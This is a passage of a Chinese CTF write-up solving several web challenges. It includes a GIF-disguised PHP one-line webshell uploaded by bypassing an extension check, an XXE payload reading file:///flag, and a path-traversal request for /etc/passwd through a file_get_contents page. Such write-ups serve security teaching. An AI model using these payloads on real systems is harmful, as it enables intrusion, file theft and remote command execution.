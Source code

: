 发现他只对文件名第一个点后面的内容做检测，所以我们可以让文件名为`1.png.php`来上传一个一句话木马

首先构造一个名为`1.png`的文件内容为

```
GIF89a<?php eval($_POST[1]);
```

用burpsuite抓包上传，把文件名修改为`1.png.php`

![image-20230916160051613](https://ttycp3.oss-cn-beijing.aliyuncs.com/img/image-20230916160051613.png)

上传成功，然后直接上蚁剑上菜刀或者手动getshell姿势随意

![image-20230916160222059](https://ttycp3.oss-cn-beijing.aliyuncs.com/img/image-20230916160222059.png)



### 了解你的座驾

题目说flag在根目录，观察一下其他车图片获得的途径都是通过post传递一个xml信息来读取，很容易想到这里考的是XXE漏洞，对payload进行url编码后POST拿到flag，下面是payload:

```xml-dtd
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY>
<!ENTITY xxe SYSTEM "file:///flag">]>
<xml>
<name>&xxe;</name>
</xml>
```

发包：

![image-20230916161529187](https://ttycp3.oss-cn-beijing.aliyuncs.com/img/image-20230916161529187.png)

### 大海捞针

用burpsuite的`Intruder`模块进行爆破，在长度明显与别的有很大差别的163中找到flag

![image-20230916162301801](https://ttycp3.oss-cn-beijing.aliyuncs.com/img/image-20230916162301801.png)

### meo图床

还是一个文件上传，不过这回upload.php没法读了，但好像没有对后缀有任何限制还给出了文件路径，访问后发现一片白，尝试构造报错发现有一个file_get_contents()函数。

![image-20230916170507967](https://ttycp3.oss-cn-beijing.aliyuncs.com/img/image-20230916170507967.png)

正常访问这个文件会提示404，尝试看看能不能利用images.php页面的file_get_contents()来读取根目录的文件，尝试payload`images.php?name=../../../../../etc/passwd`，访问后并没有提示404而是有一个图片格式的样式，下载下来用记事本打开就可以看见文件内容，尝试读取`/flag`,获得内容

```txt
hello~
Flag Not Here~
Find Somewhere Else~


<!--Fl3g_n0t_Here_dont_peek!!!!!.php-->

Not Here~~~~~~~~~~~~~ awa
```
